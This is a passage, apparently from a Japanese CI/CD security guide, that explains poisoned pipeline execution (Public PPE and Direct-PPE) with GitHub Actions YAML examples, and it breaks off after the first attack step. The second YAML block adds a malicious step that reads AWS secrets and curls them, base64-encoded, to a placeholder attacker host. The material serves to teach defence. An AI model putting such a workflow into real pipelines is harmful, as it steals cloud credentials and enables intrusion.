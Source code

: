 しかし、CI パイプラインの有毒化はインターネット上の匿名攻撃者でも可能なことがあります。パブリックリポジトリ (オープンソースプロジェクトなど) は任意のユーザーが貢献できることがよくあり、通常はプルリクエストを作成したり、コードの変更を提案したりできます。一般的にこれらのプロジェクトはプライベートプロジェクトと同様に CI ソリューションを使用して自動的にテストおよびビルドされます。

パブリックリポジトリの CI パイプラインが匿名ユーザーによって提案されたレビューされていないコードを実行する場合、Public PPE 攻撃、略称 3PE の影響を受けやすくなります。また、脆弱なパブリックリポジトリのパイプラインがプライベートリポジトリと同じ CI インスタンス上で動作している場合、プライベートプロジェクトのシークレットなどの内部資産も公開されます。



**事例**

<span style="text-decoration:underline;">例 1: Direct-PPE (GitHub Actions) による認証情報の窃取</span>

以下の例では、GitHub リポジトリを GitHub Actions ワークフローに接続して、コードをフェッチし、ビルドし、テストを実行し、最終的にアーティファクトを AWS にデプロイしています。

新しいコードがリポジトリ内のリモートブランチにプッシュされると、パイプラインの構成ファイルを含むコードがランナー (ワークフローコード) によってフェッチされます。


```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - run: |
         echo "building..."
         echo "testing..."
         echo "deploying..."
```

![alt_text](assets/images/dppe.jpg)


このシナリオでは、D-PPE 攻撃は以下のように実行されます。



1. 攻撃者はリポジトリに新しいリモートブランチを作成します。GitHub 組織にスコープした AWS 認証情報にアクセスし、それらをリモートサーバーに送信することを目的とした悪意のあるコマンドでパイプライン構成ファイルを更新します。

```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
         SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com

```